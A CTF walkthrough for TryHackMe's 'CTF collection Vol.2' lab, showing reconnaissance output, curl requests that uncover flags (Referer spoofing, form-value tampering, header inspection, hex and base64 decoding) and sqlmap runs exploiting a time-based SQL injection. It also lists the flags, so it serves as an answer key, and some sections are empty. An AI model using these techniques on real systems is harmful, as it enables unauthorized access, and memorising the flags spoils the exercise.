

# CTF collection Vol.2

## nmap
~~~
nmap -sV -A -oN nmap 10.10.11.246

Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 1b:c2:b6:2d:fb:32:cc:11:68:61:ab:31:5b:45:5c:f4 (DSA)
|   2048 8d:88:65:9d:31:ff:b4:62:f9:28:f2:7d:42:07:89:58 (RSA)
|_  256 40:2e:b0:ed:2a:5a:9d:83:6a:6e:59:31:db:09:4c:cb (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: 360 No Scope!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~
## Directory
~~~
Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 94328]
/login                (Status: 301) [Size: 312] [--> http://10.10.11.246/login/]
/button               (Status: 200) [Size: 39148]
/static               (Status: 200) [Size: 253890]
/cat                  (Status: 200) [Size: 62048]
/small                (Status: 200) [Size: 689]
/who                  (Status: 200) [Size: 3847428]
/robots               (Status: 200) [Size: 430]
/iphone               (Status: 200) [Size: 19867]
/game1                (Status: 301) [Size: 312] [--> http://10.10.11.246/game1/]
/egg                  (Status: 200) [Size: 25557]
/dinner               (Status: 200) [Size: 1264533]
/ty                   (Status: 200) [Size: 198518]
/ready                (Status: 301) [Size: 312] [--> http://10.10.11.246/ready/]
/saw                  (Status: 200) [Size: 156274]
/game2                (Status: 301) [Size: 312] [--> http://10.10.11.246/game2/]
/wel                  (Status: 200) [Size: 155758]
/free_sub             (Status: 301) [Size: 315] [--> http://10.10.11.246/free_sub/]
/nicole               (Status: 200) [Size: 367650]
/server-status        (Status: 403) [Size: 293]
~~~
## Easter 1
~~~
┌──(alpha㉿sploit)-[~/ctf/CTF-collection-Vol2]
└─$ curl -s http://10.10.11.246/robots.txt
User-agent: * (I don't think this is entirely true, DesKel just wanna to play himself)
Disallow: /VlNCcElFSWdTQ0JKSUVZZ1dTQm5JR1VnYVNCQ0lGUWdTU0JFSUVrZ1p5QldJR2tnUWlCNklFa2dSaUJuSUdjZ1RTQjVJRUlnVHlCSklFY2dkeUJuSUZjZ1V5QkJJSG9nU1NCRklHOGdaeUJpSUVNZ1FpQnJJRWtnUlNCWklHY2dUeUJUSUVJZ2NDQkpJRVlnYXlCbklGY2dReUJDSUU4Z1NTQkhJSGNnUFElM0QlM0Q=


45 61 73 74 65 72 20 31 3a 20 54 48 4d 7b 34 75 37 30 62 30 37 5f 72 30 6c 6c 5f 30 75 37 7d
~~~
```Let’s decode the hex string:```
~~~

┌──(alpha㉿sploit)-[~/ctf/CTF-collection-Vol2]
└─$ echo "45 61 73 74 65 72 20 31 3a 20 54 48 4d 7b 34 75 37 30 62 30 37 5f 72 30 6c 6c 5f 30 75 37 7d" | xxd -r -p
Easter 1: THM{4u70b07_r0ll_0u7}
~~~
## Easter 2
Hint: Decode the base64 multiple times. Don’t forget there are something being encoded.

From the robots.txt file, there is a hidden resource:

Install urlencode tool
```sudo apt-get install gridsite-clients```
~~~
┌──(alpha㉿sploit)-[~/ctf/CTF-collection-Vol2]
└─$ urlencode $(echo "VlNCcElFSWdTQ0JKSUVZZ1dTQm5JR1VnYVNCQ0lGUWdTU0JFSUVrZ1p5QldJR2tnUWlCNklFa2dSaUJuSUdjZ1RTQjVJRUlnVHlCSklFY2dkeUJuSUZjZ1V5QkJJSG9nU1NCRklHOGdaeUJpSUVNZ1FpQnJJRWtnUlNCWklHY2dUeUJUSUVJZ2NDQkpJRVlnYXlCbklGY2dReUJDSUU4Z1NTQkhJSGNnUFElM0QlM0Q=" | base64 -d) | base64 -d | sed "s/\ //g" | base64 -d | sed "s/\ //g" | base64 -d
base64: invalid input
DesKel_secret_base
~~~


## Easter 3

Hint: Directory buster with common.txt might help.

Dirsearch found ```/login/.``` The page itself contains an easter egg:
~~~
┌──(alpha㉿sploit)-[~/ctf/CTF-collection-Vol2]
└─$ curl -s http://10.10.11.246/login/ | grep THM
<p hidden>Seriously! You think the php script inside the source code? Pfff.. take this easter 3: THM{y0u_c4n'7_533_m3}</p> 
~~~
## Easter 4
Hint: time-based sqli


~~~
sqlmap -r r.txt --current-db 
[REDACTED]

[08:09:07] [INFO] retrieved: THM_f0und_m3
current database: 'THM_f0und_m3'
~~~
Now that we have the database, let’s dump the tables:
~~~
sqlmap -r r.txt -D THM_f0und_m3 --tables
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] THM_f0und_m3

~~~
## Easter 6
Hint: Look out for the response header.
``` curl -s 10.10.11.246 -D header.txt```
~~~
HTTP/1.1 200 OK
Date: Mon, 13 Nov 2023 20:20:38 GMT
Server: Apache/2.2.22 (Ubuntu)
X-Powered-By: PHP/5.3.10-1ubuntu3.26
Busted: Hey, you found me, take this Easter 6: THM{l37'5_p4r7y_h4rd}
Set-Cookie: Invited=0
Vary: Accept-Encoding
Transfer-Encoding: chunked
Content-Type: text/html
~~~
## Easter 7
Hint: Cookie is delicious
## Easter 9
~~~
┌──(alpha㉿sploit)-[~/ctf/CTF-collection-Vol2]
└─$ curl -s http://10.10.11.246/ready/ 
<html>
        <head>
                <title>You just press it</title>
                <meta http-equiv="refresh" content="3;url=http:gone.php" />
                <p style="text-align:center"></p>
                <!-- Too fast, too good, you can't catch me. I'm sanic Easter 9: THM{60nn4_60_f457} -->
        </head>

</html>
~~~
## Easter 10
~~~
┌──(alpha㉿sploit)-[~/ctf/CTF-collection-Vol2]
└─$ curl -s http://10.10.11.246/free_sub/
only people came from tryhackme are allowed to claim the voucher.                                                                                                                                                                       
┌──(alpha㉿sploit)-[~/ctf/CTF-collection-Vol2]
└─$ curl -s --referer "tryhackme.com" http://10.10.11.246/free_sub/
Nah, there are no voucher here, I'm too poor to buy a new one XD. But i got an egg for you. Easter 10: THM{50rry_dud3}   

~~~
## Easter 11
Hint: Temper the html

There is a dropdown on the main page, in the menu section. It allows to choose between salad, sandwich, tyre or DesKel.
~~~
                                
┌──(alpha㉿sploit)-[~/ctf/CTF-collection-Vol2]
└─$ curl -s http://10.10.11.246/ | grep menu -B 1 -A 10            
        
        <h2>Let see the menu, huh..............</h2>
        <form method="POST">
        <select name="dinner">
                 <option value="salad">salad</option>
                 <option value="chicken sandwich">chicken sandwich</option>
                 <option value="tyre">tyre</option>
                 <option value="DesKel">DesKel</option>
        </select>
         <br><br><br>
                 <button name="submit" value="submit">Take it!</button>
        </form>
~~~
If you choose salad for example, you will be told to choose an egg instead, but egg is not on the list.
~~~
┌──(alpha㉿sploit)-[~/ctf/CTF-collection-Vol2]
└─$ curl -s -d "dinner=salad" -X POST http://10.10.11.246/ | grep menu -B 1 -A 12
        
        <h2>Let see the menu, huh..............</h2>
        <form method="POST">
        <select name="dinner">
                 <option value="salad">salad</option>
                 <option value="chicken sandwich">chicken sandwich</option>
                 <option value="tyre">tyre</option>
                 <option value="DesKel">DesKel</option>
        </select>
         <br><br><br>
                 <button name="submit" value="submit">Take it!</button>
        </form>

        Mmmmmm... what a healthy choice, I prefer an egg        <h1 style="color:red"">Press this button if you wishes to watch the world burn!!!!!!!!!!!!!!!!<h1>
~~~
Oh, you prefer eggs? No problem…
~~~
┌──(alpha㉿sploit)-[~/ctf/CTF-collection-Vol2]
└─$ curl -s -d "dinner=egg" -X POST http://10.10.11.246/ | grep menu -B 1
        
        <h2>Let see the menu, huh..............</h2>
--

        You found the secret menu, take the easter 11: THM{366y_b4k3y}  <h1 style="color:red"">Press this button if you wishes to watch the world burn!!!!!!!!!!!!!!!!<h1>

~~~
## Easter 12
A Javscript file is included in the home page:
~~~
┌──(alpha㉿sploit)-[~/ctf/CTF-collection-Vol2]
└─$ curl -s http://10.10.11.246/ | grep "\.js"
                <script src="jquery-9.1.2.js"></script>
~~~
But this is a fake jquery:

~~~
┌──(alpha㉿sploit)-[~/ctf/CTF-collection-Vol2]
└─$ curl -s http://10.10.11.246/jquery-9.1.2.js
function ahem()
 {
        str1 = '4561737465722031322069732054484d7b68316464336e5f6a355f66316c337d'
        var hex  = str1.toString();
        var str = '';
        for (var n = 0; n < hex.length; n += 2) {
                str += String.fromCharCode(parseInt(hex.substr(n, 2), 16));
        }
        return str;
 }
~~~
~~~
┌──(alpha㉿sploit)-[~/ctf/CTF-collection-Vol2]
└─$ curl -s http://10.10.11.246/ready/gone.php 
<html>
                <title>Congratulation</title>
                <h1 style="text-align:center">Congratulation!You just ended the world</h1>
                <p style="text-align:center"></p><br><br>
                <p style="text-align:center">Happy? Take the egg now. Easter 13: THM{1_c4n'7_b3l13v3_17}</p>
</html>

~~~

## Easter 14
~~~


